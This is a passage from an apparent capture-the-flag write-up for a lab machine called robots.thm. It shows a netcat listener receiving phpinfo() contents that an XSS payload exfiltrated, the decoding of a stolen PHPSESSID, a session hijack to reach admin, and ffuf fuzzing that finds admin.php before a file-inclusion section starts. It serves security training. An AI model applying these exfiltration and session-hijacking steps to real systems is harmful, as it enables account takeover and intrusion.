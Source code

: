 Next, in our listener on port `81`, we capture the exfiltrated **phpinfo()** contents:

```console
$ nc -lvnp 81
listening on [any] 81 ...
connect to [10.8.64.79] from (UNKNOWN) [10.10.78.224] 52348
POST /exfil HTTP/1.1
Host: 10.8.64.79:81
Connection: keep-alive
Content-Length: 99145
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/127.0.6533.119 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://robots.thm
Referer: http://robots.thm/
Accept-Encoding: gzip, deflate

data=PCFET0NUWVBFIGh0bWwgUFVCTElDICItLy9XM0MvL0RURCBYSFRNTCAxLjAgVHJhbnNpdGlvbmFsLy9FTiIgIkRURC94aHRtbDEtdHJhbnNpdGlvbmFsLmR0ZCI+CjxodG1sIHhtb
...
```

We save the base64-encoded `data` parameter in the response to a file and decode it:

```console
$ base64 -d server_info.php.b64 > /tmp/server_info.html
```

Opening `server_info.html` in a browser, we confirm the captured `PHPSESSID`:

> `PHPSESSID=hotk5ancbgmqudtp774e5iss7o`

![Xss Phpinfo Cookie](xss_phpinfo_cookie.webp){: width="1200" height="600"}

Using the stolen session cookie, we navigate to `http://robots.thm/harm/to/self/index.php` and modify our cookie. We successfully log in as **admin**, but nothing appears different on the dashboard.

![Robots Thm Index Logged In Admin](robots_thm_index_logged_in_admin.webp){: width="1200" height="600"}

### Remote File Inclusion

Since logging in as **admin** didn’t reveal anything new, we use fuzzing to enumerate hidden endpoints under `http://robots.thm/harm/to/self/` and discover `admin.php`:

```console
$ ffuf -u 'http://robots.thm/harm/to/self/FUZZ' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -e .php -t 100 -mc all -ic -fc 404
...
admin.php               [Status: 200, Size: 370, Words: 29, Lines: 28, Duration: 99ms]
```
{: .wrap }

Navigating to `http://robots.thm/harm/to/self/admin.php`, we find a form that allows us to submit URLs.
